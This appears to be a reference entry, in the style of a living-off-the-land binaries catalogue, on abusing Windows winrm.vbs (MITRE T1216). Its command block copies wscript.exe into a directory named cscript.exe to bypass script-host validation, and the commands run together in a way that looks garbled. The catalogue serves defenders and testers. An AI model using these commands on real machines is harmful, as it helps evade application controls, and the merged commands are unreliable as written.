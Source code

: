 ## Winrm.vbs
```

winrm quickconfig
Execute winrm - requires registry changes to activate COM object

mkdir %SystemDrive%\BypassDir\cscript.exe copy %windir%\System32\wscript.exe %SystemDrive%\BypassDir\cscript.exe\winword.exe %SystemDrive%\BypassDir\cscript.exe\winword.exe //nologo %windir%\System32\winrm.vbs get wmicimv2/Win32_Process?Handle=4 -format:pretty
Creates Cscript.exe as dir to bypass winrm validation that cscript is running. Requires that a xls file is planted.
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: False   
* Mitre: [T1216](https://attack.mitre.org/wiki/Technique/T1216)   
   
* Links:   
  * https://posts.specterops.io/application-whitelisting-bypass-and-arbitrary-unsigned-code-execution-technique-in-winrm-vbs-c8c24fb40404
  * https://www.youtube.com/watch?v=3gz1QmiMhss
  * https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
   
* File path:   
  * C:\Windows\System32\winrm.vbs
  * C:\Windows\SysWOW64\winrm.vbs
   
* Acknowledgement:   
  * Name: Matt Graeber
    * Twitter: [@mattifestation](https://twitter.com/@mattifestation)
    * Blog: http://www.exploit-monday.com/
  * Name: Matt Nelson
    * Twitter: [@enigma0x3](https://twitter.com/@enigma0x3)
    * Blog: https://enigma0x3.net
  * Name: Casey Smith
    * Twitter: [@subtee](https://twitter.com/@subtee)
    * Blog: http://subt0x11.blogspot.com/
   
OS:  
